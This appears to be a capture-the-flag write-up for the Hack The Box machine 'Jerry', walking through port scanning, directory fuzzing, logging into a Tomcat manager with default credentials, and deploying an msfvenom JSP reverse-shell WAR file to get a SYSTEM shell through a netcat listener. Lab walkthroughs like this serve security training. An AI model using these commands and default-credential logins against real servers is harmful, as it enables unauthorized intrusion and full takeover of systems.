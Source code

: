 <h2>Recon</h2>

<h3>PortScanning</h3>

>command: sudo -A -p- -T4 -v

```
# Nmap 7.93 scan initiated Mon Feb 13 16:19:03 2023 as: nmap -A -v -T4 -p- -oN jerry 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.18s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.004 days (since Mon Feb 13 16:17:00 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=257 (Good luck!)
IP ID Sequence Generation: Incremental

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   192.77 ms 10.10.14.1
2   195.75 ms 10.10.10.95

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 13 16:23:25 2023 -- 1 IP address (1 host up) scanned in 261.65 seconds
```
We have only one port opened, this port runs http. So our enumeration today will be focused on port 8080.




<h2>Enumeration</h2>

Going to the webpage should give you this

![image](https://user-images.githubusercontent.com/67879936/222948686-e2712196-16e6-4250-b11c-c144c327653d.png)

Lets go aehad and fire up our directory searching tool

>command: ffuf -u "http://10.10.10.95:8080/FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .zip,.sql,.php,.phtml,.bak,.backup

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/jerry]
└─$ ffuf -u "http://10.10.10.95:8080/FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .zip,.sql,.php,.phtml,.bak,.backup

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.95:8080/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .zip .sql .php .phtml .bak .backup 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 11398, Words: 4248, Lines: 202, Duration: 307ms]
aux                     [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 212ms]
docs                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 243ms]
examples                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 214ms]
favicon.ico             [Status: 200, Size: 21630, Words: 19, Lines: 22, Duration: 217ms]
host-manager            [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 233ms]
manager                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 254ms]
:: Progress: [32298/32298] :: Job [1/1] :: 145 req/sec :: Duration: [0:03:22] :: Errors: 0 ::
```
We have lots of directories here, but our main focus will be the  ```/manager``` directory. Lets navigate to that directory

![image](https://user-images.githubusercontent.com/67879936/222948604-1a15f2ef-dceb-420a-846e-d5551d311ef8.png)

We have to provide a username and a password here, after a little research I actually found the right one

```username:admin```        ```password:admin```

![image](https://user-images.githubusercontent.com/67879936/222948812-759fb7a9-69c7-4757-a27d-4d6b3f0c915f.png)

cool, we are logged in. Also, we can see we are provided with a username and password. We will use these creds to login to the ```/manager``` directory instead of using ```admin:admin```

```username:tomcat```     ```password:s3cret```

To log in again I'll advice you either clear your browser's history or you use another browser

![image](https://user-images.githubusercontent.com/67879936/222948885-30f62486-ab6b-4cea-ab47-e8734a5a66b5.png)

cool, we are logged in as user _tomcat_, scrolling down the webpage, you'll find this

![image](https://user-images.githubusercontent.com/67879936/222948920-3d220d58-19dd-448f-8192-03a963102661.png)

we are allowed to upload a ```.war``` file, we are going to exploit this feature.




<h2>Exploitation</h2>

We'll be creating a malicious ```.war``` file using msfvenom

>command: msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.49.53 LPORT=4444 -f war > runme.war

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/jerry]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=4444 -f war > runme.war
Payload size: 1099 bytes
Final size of war file: 1099 bytes

                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/jerry]
└─$ ls
jerry  runme.war
```
Now, lets go ahead and upload the malicious .war file

![image](https://user-images.githubusercontent.com/67879936/222949165-7066a957-1d4b-4382-a44c-bce2d62e57d3.png)

After uploading, ensure you set your netcat listner before clicking on the uploaded malicious .war file

>command: rlwrap nc -nvlp 4444

![image](https://user-images.githubusercontent.com/67879936/222949253-0bcfdfad-1231-4f40-a6dd-20fa8042d5e3.png)

Boom!!! We got a shell as user ```nt authority\system```

That will be all for today
<br> <br>
[Back To Home](../../index.md)

 





























